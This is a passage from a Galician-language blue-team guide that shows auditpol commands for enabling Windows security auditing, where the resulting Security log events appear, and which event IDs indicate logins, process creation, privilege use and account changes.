auditpol /set /subcategory:"Uso de privilegio no confidencial" /success:enable /failure:enable auditpol /set /subcategory:"Uso de privilegio confidencial" /success:enable /failure:enableIsto permite detectar eventos onde se utilizan permisos elevados como
SeDebugPrivilegeouSeTcbPrivilege. -
Activar auditoría de acceso a ficheiros e obxectos
auditpol /set /subcategory:"Sistema de archivos" /success:enable /failure:enable auditpol /set /subcategory:"Objeto de kernel" /success:enable /failure:enableNecesario para ver actividades sobre recursos sensibles.
-
Activar seguimento detallado
auditpol /set /subcategory:"Actividad DPAPI" /success:enable /failure:enable auditpol /set /subcategory:"Eventos de RPC" /success:enable /failure:enable auditpol /set /subcategory:"Creación del proceso" /success:enable /failure:enableIsto axuda a detectar procesos encadeados ou movemento lateral baseado en chamadas remotas.
-
Onde ver os rexistros xerados por auditpol en Windows
Cando activas auditoría avanzada cun comando
auditpol, os eventos que se rexistran non aparecen no log de Sysmon, senón nun log nativo do sistema chamado Seguridad.- Ruta no Visor de Eventos
Aquí é onde se gardan os eventos do sistema relacionados con:
- Logins
- Execucións de procesos
- Cambios en contas
- Uso de privilexios
- Acceso a rexistro e obxectos-
Eventos comúns segundo a subcategoría auditada
Acción auditada Evento ID Significado Creación de proceso 4688Execución dun proceso ( cmd.exe,schtasks.exe)Inicio de sesión exitoso 4624Login correcto Fallo de login 4625Intento fallido Uso de privilexios 4672,4673Uso de SeDebugPrivilege, etc.Cambio de clave de rexistro 4657Persistencia ou manipulación Creación/activación de conta 4720,4722Alta ou desbloqueo -
Como buscar
- Abre o Visor de Eventos
- Vai a
Seguridad - Fai clic en "Filtrar registro actual"
- Introduce o ID do evento (ex:
4688) ou palabra clave
Activar toda a auditoría dispoñible en Windows cun único comando
Se precisas rexistrar todos os eventos posibles de auditoría de seguridade en Windows (para fins forenses, detección de intrusións ou monitorización completa), podes activar todas as subcategorías de auditoría ao mesmo tempo usando auditpol:
Este comando:
- Recorre automaticamente todas as categorías e subcategorías dispoñibles.
- Activa a auditoría de:
- Aciertos (success)
- Erros (failure)
- Afecta a:
- Creación de procesos, rexistro, logins, cambios en contas, uso de privilexios, etc.
Advertencia
- Este nivel de auditoría pode xerar grandes volumes de eventos no log de seguridade (
Seguridad). - É ideal para contornas de laboratorio ou sistemas críticos, pero pode ter impacto en rendemento ou disco en produción.
Complementa esta auditoría con Sysmon para unha visión máis detallada de procesos, rede e persistencia.
Conclusión
Esta guía ofrece un procedemento práctico e detallado para realizar simulacións de ataques comúns (Reverse Shell, Movemento Lateral, Persistencia) con VIPER e aplicar contramedidas efectivas (bastionado) desde a perspectiva do Blue Team. Simular estes ataques axuda ás organizacións a comprender as súas debilidades e a mellorar a súa postura de seguridade. Seguir estas recomendacións mellorará significativamente a resiliencia da infraestrutura fronte a ataques reais.